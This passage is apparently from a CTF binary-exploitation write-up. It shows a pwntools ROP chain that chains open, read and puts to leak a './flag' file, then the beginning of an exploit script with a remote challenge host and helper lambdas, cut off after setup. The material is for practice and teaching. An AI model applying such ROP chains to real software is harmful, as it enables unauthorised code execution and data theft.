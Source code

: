 ```plain
orw = p64(pop_rdi)+p64(stack_addr+0xd0)+p64(pop_rsi)+p64(0)+p64(open_addr)
#open(stack_addr+0xd0,0)
orw += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(elf.bss()+0x800)+p64(pop_rdx)+p64(0x50)+p64(elf.plt["read"])
#read(3,elf.bss()+0x800,0x50)
orw += p64(pop_rdi)+p64(elf.bss()+0x800)+p64(elf.plt["puts"])
#puts(elf.bss()+0x800)
orw = orw.ljust(0xa8,b'\0')+b'./flag\x00\x00'

orw+= p64(stack_addr+0x28-8)+p64(0x4012e0)
p.send(orw)
```

[![](assets/1701606597-5205391a08efb80f8c296a96580b3b41.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170529-49e6b12c-845f-1.png)

exp：

```plain
#encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
#from ae64 import AE64
#from LibcSearcher import * 

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('tcp.cloud.dasctf.com',23820)
else:
    p = process(name)

libcso = './libc.so.6'
#libcso = './libc-2.31.so'
libc = ELF(libcso)
#libc = elf.libc
elf = ELF(name)

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
```